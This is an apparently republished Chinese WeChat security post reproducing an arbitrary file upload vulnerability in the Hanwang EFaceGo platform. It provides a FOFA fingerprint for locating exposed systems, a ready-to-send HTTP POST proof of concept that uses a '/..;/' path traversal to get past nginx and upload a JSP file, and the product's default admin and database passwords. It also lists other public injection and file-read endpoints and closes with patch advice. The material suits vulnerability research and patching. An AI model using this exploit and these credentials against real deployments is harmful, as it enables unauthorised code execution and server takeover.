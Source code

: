 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyNTYxNDAwNQ==&mid=2247484898&idx=1&sn=8398d7bfb2fa31deb03c63d073a09293

#  【漏洞复现】汉王EFaceGo upload.do 任意文件上传漏洞  
PokerSec  PokerSec   2025-07-09 01:01  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
       汉王e脸通综合管理平台是一个集生物识别、大数据、NFC射频、计算机网络、自动控制等技术于一体，通过“人脸卡”及关联信息实现多种功能智能管理，打造从云端到终端一体化应用，广泛应用于智慧园区、社区、工地等领域的综合管理平台。汉王EFaceGo upload.do 接口存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限。  
## fofa  

```
icon_hash=&#34;1380907357&#34;
```

## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMQEYJXvPWr9Ts2MwvtJI0YHt8kz5V7xAG8XNB96tFRSmKZVXs0HzvtA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
POST /manage/intercom/..%3B/..%3B/manage/resourceUpload/upload.do HTTP/1.1
Host: 192.168.168.135:8100
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Length: 199


------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;1.jsp&#34;
Content-Type: image/jpeg


test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMY14rLuz5NLqjmCA3XQibCb4VibbwH8DuNn2uNDIribZU7oiatHArKS8cBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibM9HLgibmmR4FGaW3mDhkOUJb4nEQdJibibHm0Ogwzz7juxZNaonc9YxXng/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
系统主serverjar文件采用了加密，从内存中dump出类信息：  
  
1、绕过nginx反向代理限制   
  
tomcat在规范化处理url时会将/..;/替换为/../但是nginx不会做特殊处理，所以就可以在tomcat侧实现路径穿越  
  
2、系统中一些白名单路由：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMhWVGVKopcrw1ialQvq7Q8Fz7Qlkq4OvOJyJt50iaXpF2WJC4aqJMjkOg/640?wx_fmt=png&from=appmsg "")  
  
  
webapps\manage\WEB-INF\lib\iface.server-1.0.jar!\com\hanvon\iface\web\controller\operationManage\ResourceUploadController.class  
  
文件上传，并未做限制，直接获取文件类型进行拼接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI3pW83icPz0nPPmg1nxohibMgLfecdhjlb9ht7WCyLiam2hce3losRURnSgicricB41DgHsSntiaRslDPQ/640?wx_fmt=png&from=appmsg "")  
  
系统默认密码  

```
admin/123654
```

  
数据库配置,采用自带加密：  
  

```
root/kq_123654
```

  
目前被公开包括queryAlarmEvent.do、queryBlackList.do、queryManyPeopleGroupList.do、getGroupEmployee.do接口sql注入、  
exportResourceByFilePath.do、fileDownload.do、imgDownload.do接口存在任意文件读取漏洞、uploadMeetingFile.do接口存在任意文件上传漏洞。  
## 修复意见  
  
目前官方已发布漏洞修复版本，建议用户升级到安全版本：  
  
https://hwzy99.com/  
  
  
  
如有侵权，请及时联系删除。  
  
  
